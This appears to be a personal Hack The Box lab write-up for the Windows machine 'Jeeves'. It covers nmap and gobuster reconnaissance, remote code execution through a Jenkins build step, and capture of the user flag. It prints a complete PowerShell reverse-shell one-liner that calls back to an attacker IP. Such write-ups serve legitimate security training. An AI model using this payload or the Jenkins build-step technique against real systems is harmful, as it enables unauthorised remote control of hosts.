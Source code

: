 #medium 

## 0. **Lab infos**

**Difficulty :** Medium
**Name :** Jeeves
**IP** : 10.129.228.112
**Objectives :** Get user and root flags
**OS :** #Windows

##### **Conclusion**
**Time :** 
	**Start :** 22.04.2025 16:31
	**Break at/to :** 
	**Finish :** 
**Satisfaction :**  
### 1. **Reconnaissance

We start with an #nmap scan

```BASH
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```

And we make a #gobuster scan on the port 50000 because it's the only we can see without the -p-

```BASH
┌─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-0k04etkbc3]─[~]
└──╼ [★]$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.228.112:50000
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.228.112:50000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.129.228.112:50000/askjeeves/]
Progress: 108476 / 220561 (49.18%)
```

![[Pasted image 20250422164215.png]]


## 2. **Weaponization

## 3. **Delivery

## 4. **Exploitation

We can create a new jobs and in the build > Add Build step select Execute Windows batch command.

And we can enter our command. I wrote whoami.
Adn after build the jobs we can click on Conole OutPut and see the result of our command.

![[Pasted image 20250422165715.png]]

So with this reverse shell we can have an #RCE 

```POWERSHELL
powershell -nop -c "& { $client = New-Object Net.Sockets.TCPClient('10.10.14.117',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}}"
```

The server is extremely slow but it's okkey

![[Pasted image 20250422172207.png]]

## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives

So for the first flag it's in kohsuke on his desktop :

```POWERSHELL
> type kohsuke\Desktop\user.txt
e3232272596fb47950d59c4cf1e7066a
```